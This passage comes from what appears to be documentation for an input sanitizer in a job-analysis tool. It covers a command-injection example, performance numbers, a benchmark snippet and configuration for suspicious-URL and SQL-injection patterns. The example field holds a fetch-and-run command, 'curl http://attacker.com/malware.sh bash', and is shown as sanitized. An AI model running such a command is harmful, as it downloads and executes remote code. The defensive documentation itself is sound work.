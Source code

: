 **Result:**
```json
{
  "company_name": "TechCorp curl http://attacker.com/malware.sh  bash"
}
```
✅ **Command injection prevented** - Metacharacters stripped

---

## Performance Impact

**Measured Overhead:**
- Sanitization per field: ~0.5-2ms
- Sanitization per job (avg 50 fields): ~25-100ms
- Total overhead per batch (10 jobs): ~250ms-1s

**Optimizations:**
- Compiled regex patterns (reused across calls)
- Early exit on clean data (no warnings)
- Recursive algorithm (handles nested objects efficiently)

**Benchmark Command:**
```python
import time
from modules.ai_job_description_analysis.response_sanitizer import sanitize_response

start = time.time()
sanitized, warnings = sanitize_response(result, job_id)
elapsed = (time.time() - start) * 1000
print(f"Sanitization took: {elapsed:.2f}ms")
```

---

## Configuration

### Adjusting Limits

**File:** `response_sanitizer.py`

```python
# Maximum safe string length (prevent DoS)
self.max_string_length = 10000  # Increase if needed

# Add custom suspicious URL patterns
self.suspicious_url_patterns.append(r"https?://[a-z0-9-]+\.evil\.com")

# Add custom SQL injection patterns
self.sql_injection_patterns.append(r"(?i)(your_custom_pattern)")
```

### Disabling Specific Checks
